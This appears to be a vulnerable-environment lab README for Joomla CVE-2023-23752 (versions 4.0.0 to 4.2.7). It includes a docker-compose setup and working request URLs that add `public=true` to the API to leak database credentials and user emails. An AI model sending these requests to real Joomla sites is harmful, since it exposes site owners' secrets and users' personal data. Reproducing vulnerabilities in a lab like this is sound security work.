 # Joomla improper access check in webservice endpoints (CVE-2023-23752)

[中文版本(Chinese version)](README.zh-cn.md)

Joomla is a free and open-source content management system (CMS) that allows users to build websites and online applications. It was first released in 2005 and has since become one of the most popular CMS platforms, powering millions of websites around the world.

An issue was discovered in Joomla! 4.0.0 through 4.2.7. An improper access check allows unauthorized access to webservice endpoints.

References:

- <https://developer.joomla.org/security-centre/894-20230201-core-improper-access-check-in-webservice-endpoints.html>
- <https://xz.aliyun.com/t/12175>
- <https://vulncheck.com/blog/joomla-for-rce>

## Vulnerable Environment

Execute following command to start a Joomla site 4.2.7:

```
docker-compose up -d
```

You can access the Joomla website through `http://your-ip:8080` after the server is started.

## Exploit

This issue is caused by an attribute overwrite issue, the attacker can use `public=true` to bypass the authorization check.

For example, expose all configuration including MySQL username and password through this link:

```
http://your-ip:8080/api/index.php/v1/config/application?public=true
```

![](1.png)

Otherwise access is unauthorized without `public=true`：

![](2.png)

Expose all users information including emails through this link:

```
http://your-ip:8080/api/index.php/v1/users?public=true
```

![](3.png)
